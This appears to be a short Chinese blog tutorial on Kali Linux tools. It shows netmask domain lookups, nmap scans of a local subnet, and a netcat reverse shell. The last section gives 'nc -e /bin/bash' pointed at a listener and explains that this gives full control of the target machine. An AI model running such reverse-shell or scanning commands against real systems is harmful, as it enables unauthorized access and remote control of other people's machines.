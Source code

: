 ```yaml
---
title: "Kali Linux 工具"
date: 2022-09-14T15:04:29+08:00
draft: false
tags: ["Linux","Hacker"]
categories: ["Linux"]
resources:
- name: "featured-image"
  src: "banner.png"
---
```


## netmask

### 查域名ip

```bash
netmask -s google.com
```

## nmap 端口扫描

### 扫描网段下的ip

查看路由器连接了那些设备

```bash
#指定端口范围
nmap -sT -p 80,443  192.168.31.0/24
nmap -sT   192.168.31.0/24
```

### 扫描端口

```bash
nmap 192.168.31.26
```

## netcat 使用

### 在源机器建立监听

```bash
nc -lnvp 88 -s 192.168.31.191
```

### 在目标机器连接源机器

```bash
nc -e /bin/bash 192.168.31.191 88
```

回到源机器，可以看到如下回显

```bash
connect to [192.168.31.191] from (UNKNOWN) [192.168.31.26] 64197
```
在源机器上执行命令，现在就可以像操作本机一样操作目标机器
